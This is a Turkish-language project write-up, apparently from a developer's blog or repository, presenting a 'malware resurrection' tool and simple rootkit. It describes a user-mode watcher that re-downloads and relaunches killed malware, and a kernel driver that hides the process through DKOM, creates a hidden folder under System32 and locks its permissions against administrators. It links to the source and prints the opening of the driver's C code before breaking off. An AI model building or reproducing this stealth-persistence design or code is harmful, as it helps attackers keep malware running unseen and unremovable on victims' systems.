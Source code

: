 ## Proje

Hazırladığım projede user-mode programla beraber kernel-mode driver kullanılarak kapanan malware'i tekrar diriltmek ve malware'in sistemde gizli bir şekilde çalışması için çeşitli yöntemlere başvurulmakta. Projede, kapanılan malware'in sistemde hem diritilmesi hem de gizli bir şekilde çalışması amaçlanmıştır. Yani beraberinde basit bir rootkit oluşturdum.

User-mode programın nihai amacı, ilgili malware'i dinlemektir. Eğer malware bir şekilde kapanırsa, malware tekrar diriltmek için harekete geçer. Bu esnada user-mode program, malware indirmek için driver ile iletişim kurar. Driver, belirtilen yola bir gizli klasör oluşturur (projede `C:\Windows\System32\` klasörü kullanılmıştır). 

Bu işlemden sonra user-mode programı, oluşturulan gizli klasöre malware'i indirir ve bir process oluşturur. Bu işlemden sonra user-mode program, oluşturulan process'in PID değerini, malware'in gizli bir şekilde çalışabilmesi için driver'a iletir. Driver bu PID değeriyle DKOM saldırısı gerçekleştirerek Process listesinden malware'i siler. Bu yöntem sayesinde kullanıcı, Task Manager gibi araçlar üzerinden malware'i göremez. 

Son olarak yine driver tarafından oluşturulan gizli klasörün yetkilerini değiştirir. Bu yetki değişikliği sadece normal kullanıcıyı değil aynı zamanda admin yetkisine sahip kullanıcılarını da etkiler. Bu değişiklik ile bir admin veya bir kullanıcı klasörü silmek veya klasör içerisindeki malware'i çalıştırmak isterse **'Access Denied'** hatasıyla karşı karşıya kalacaktır.

Proje kodlarına göz atmak isterseniz [buradaki github linkine](https://github.com/0xbekoo/Malware-Resurrection) tıklayabilirsiniz.

## Kernel Mode Driver

İlk olarak kernel-mode sürücüyü inceleyeceğiz:

```c
#pragma warning(disable: 28251 4189 4996 4152)

#include "main.h"

/* Remember to put \\ at the end of the path. */
UNICODE_STRING G_ExecutablePath = RTL_CONSTANT_STRING(L"\\??\\C:Windows\\System32\\HiddenFile\\");

PVOID GetKernelBase() {
	fp_ZwQuerySystemInformation fpZwQuerySystemInformation;
	PRTL_PROCESS_MODULES Modules;
	UNICODE_STRING QuerySystemInfoStr;
	PVOID KernelBase = NULL;
	ULONG Bytes = 0;
	NTSTATUS Status;

	RtlInitUnicodeString(&QuerySystemInfoStr, L"ZwQuerySystemInformation");

	fpZwQuerySystemInformation = (fp_ZwQuerySystemInformation)MmGetSystemRoutineAddress(&QuerySystemInfoStr);
	if (NULL == fpZwQuerySystemInformation) {
		return NULL;
	}
	DbgPrintEx(0, 0, "[+] ZwQuerySystemInformation Address: 0x%p\n", fpZwQuerySystemInformation);

	Status = fpZwQuerySystemInformation(SystemModuleInformation, NULL, 0, &Bytes);
	if (STATUS_INFO_LENGTH_MISMATCH != Status) {
		return NULL;
	}

	Modules = (PRTL_PROCESS_MODULES)ExAllocatePoolWithTag(NonPagedPool, Bytes, 'modl');
	if (NULL == Modules) {
		return NULL;
	}

```